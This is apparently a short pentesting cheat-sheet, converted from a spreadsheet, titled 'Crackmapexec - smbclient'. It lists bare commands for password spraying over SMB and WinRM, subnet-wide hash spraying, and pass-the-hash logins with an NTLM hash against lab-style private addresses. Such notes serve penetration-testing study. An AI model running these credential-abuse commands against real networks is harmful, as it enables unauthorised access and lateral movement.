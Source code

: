# Crackmapexec - smbclient

|   Unnamed: 0 |   Unnamed: 1 |   Unnamed: 2 | Unnamed: 3                                                                                   |
|-------------:|-------------:|-------------:|:---------------------------------------------------------------------------------------------|
|          nan |          nan |          nan | nan                                                                                          |
|          nan |          nan |          nan | nan                                                                                          |
|          nan |          nan |          nan | crackmapexec smb 192.168.164.96 -u apache -p 'New2Era4.!' --shares                           |
|          nan |          nan |          nan | crackmapexec winrm 192.168.175.85-97 -u apache -p 'New2Era4.!'                               |
|          nan |          nan |          nan | crackmapexec smb 192.168.1.0/24 -u users.txt -H hashes.txt                                   |
|          nan |          nan |          nan | crackmapexec smb 172.16.139.82 -u wario -H fdf36048c1cf88f5630381c5e38feb8e --shares         |
|          nan |          nan |          nan | nan                                                                                          |
|          nan |          nan |          nan | impacket-smbclient -hashes :fdf36048c1cf88f5630381c5e38feb8e medtech.com/wario@172.16.139.82 |
